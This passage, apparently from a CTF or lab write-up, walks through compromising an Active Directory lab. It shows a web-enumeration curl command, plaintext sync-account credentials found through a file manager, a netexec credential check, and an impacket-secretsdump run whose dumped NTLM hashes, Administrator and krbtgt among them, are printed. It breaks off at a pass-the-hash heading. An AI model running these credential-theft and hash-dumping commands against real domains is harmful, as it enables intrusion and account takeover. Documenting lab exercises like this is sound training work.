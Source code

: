 ```bash
curl http://10.10.10.20/
```

Default Apache page with hidden comment in source:
```html
<!-- Access /elfinder to check the system files -->
```

### File Manager Access

**URL:** `http://10.10.10.20/elfinder/files/`

**Discovery:** `AD_resources.txt`

**Contents:**
```
#Active Directory Sync Service Credentials:

Purpose: Password synchronization between on-prem AD and cloud services (Azure AD Connect).
Service Account: sync_user@ent.corp
Password: Summer@2025

#Security Notes:
  Syncs password hashes to Azure AD (if hybrid environment).
  Critical: Restrict to least privilege (e.g., deny interactive login).
```



## Active Directory Compromise

### Credential Validation

```bash
netexec smb 10.10.10.100 -u sync_user -p 'Summer@2025' -d ent.corp
```

**Result:** Authentication successful

### Domain Secrets Extraction

```bash
impacket-secretsdump 'ent.corp/sync_user:Summer@2025@10.10.10.100'
```

**Domain Hashes Extracted:**
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3d15cb1141d579823f8bb08f1f23e316:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:36405f88da713c31bbff52e57aea1f86:::
ent.corp\sync_user:1103:aad3b435b51404eeaad3b435b51404ee:e58b89915ba50f299b4bb10325894f91:::
ENT-DC$:1000:aad3b435b51404eeaad3b435b51404ee:33877f5c6b4fd8324ca7724b6d0b418a:::
```

### Pass-the-Hash Authentication
